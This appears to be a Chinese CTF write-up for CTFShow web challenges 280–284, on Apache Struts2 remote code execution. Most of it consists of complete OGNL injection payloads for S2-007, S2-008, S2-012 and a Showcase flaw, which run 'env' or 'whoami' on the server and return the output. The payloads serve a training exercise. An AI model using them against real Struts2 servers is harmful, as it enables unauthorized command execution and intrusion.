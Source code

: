 
[[CTFShow 周末大挑战]]
### web280
使用Liqunkit 秒了,但是不知道原理,留个坑

---
### web281
`s2-007` 

*payload*
```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('env').getInputStream())) + '
```

### web282
`s2-008`

*payload*
```
?debug=command&expression=%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22env%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29
```

### web283
`Struts2 showcase远程代码执行漏洞`


找一个接受了参数，参数类型是string的action
*payload*

```java
ip/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27whoami%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]

```

### web284

`s2-012`

*payload*
```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

```
